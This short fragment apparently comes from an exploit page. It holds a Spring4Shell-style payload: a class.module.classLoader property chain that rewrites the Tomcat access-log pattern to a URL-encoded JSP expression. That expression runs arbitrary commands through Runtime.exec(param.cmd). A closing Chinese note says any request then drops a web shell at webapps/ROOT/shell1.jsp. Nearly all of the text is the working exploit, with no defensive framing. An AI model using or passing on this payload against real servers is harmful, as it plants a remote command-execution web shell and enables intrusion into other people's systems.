 ```plain
class.module.classLoader.resources.context.parent.pipeline.first.pattern=%24%7b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%22%2c%20%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%70%61%72%61%6d%2e%63%6d%64%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%3b%54%68%72%65%61%64%2e%73%6c%65%65%70%28%31%30%30%30%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%41%76%61%69%6c%61%62%6c%65%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%22%29%2e%61%76%61%69%6c%61%62%6c%65%28%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%62%79%74%65%42%75%66%66%65%72%43%6c%61%73%73%22%2c%20%43%6c%61%73%73%2e%66%6f%72%4e%61%6d%65%28%22%6a%61%76%61%2e%6e%69%6f%2e%42%79%74%65%42%75%66%66%65%72%22%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%61%6c%6c%6f%63%61%74%65%4d%65%74%68%6f%64%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%62%79%74%65%42%75%66%66%65%72%43%6c%61%73%73%22%29%2e%67%65%74%4d%65%74%68%6f%64%28%22%61%6c%6c%6f%63%61%74%65%22%2c%20%49%6e%74%65%67%65%72%2e%54%59%50%45%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%68%65%61%70%42%79%74%65%42%75%66%66%65%72%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%61%6c%6c%6f%63%61%74%65%4d%65%74%68%6f%64%22%29%2e%69%6e%76%6f%6b%65%28%6e%75%6c%6c%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%41%76%61%69%6c%61%62%6c%65%22%29%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%22%29%2e%72%65%61%64%28%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%68%65%61%70%42%79%74%65%42%75%66%66%65%72%22%29%2e%61%72%72%61%79%28%29%2c%20%30%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%69%6e%70%75%74%53%74%72%65%61%6d%41%76%61%69%6c%61%62%6c%65%22%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%62%79%74%65%41%72%72%54%79%70%65%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%68%65%61%70%42%79%74%65%42%75%66%66%65%72%22%29%2e%61%72%72%61%79%28%29%2e%67%65%74%43%6c%61%73%73%28%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%43%6c%61%73%73%22%2c%20%43%6c%61%73%73%2e%66%6f%72%4e%61%6d%65%28%22%6a%61%76%61%2e%6c%61%6e%67%2e%53%74%72%69%6e%67%22%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%43%6f%6e%73%74%72%75%63%74%6f%72%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%43%6c%61%73%73%22%29%2e%67%65%74%43%6f%6e%73%74%72%75%63%74%6f%72%28%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%62%79%74%65%41%72%72%54%79%70%65%22%29%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%73%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%52%65%73%22%2c%20%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%43%6f%6e%73%74%72%75%63%74%6f%72%22%29%2e%6e%65%77%49%6e%73%74%61%6e%63%65%28%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%68%65%61%70%42%79%74%65%42%75%66%66%65%72%22%29%2e%61%72%72%61%79%28%29%29%29%3b%70%61%67%65%43%6f%6e%74%65%78%74%2e%67%65%74%41%74%74%72%69%62%75%74%65%28%22%73%74%72%69%6e%67%52%65%73%22%29%7d
class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=1
```

然后任意 URL 发起请求  
会在就根目录生成 webapps/ROOT/shell1.jsp
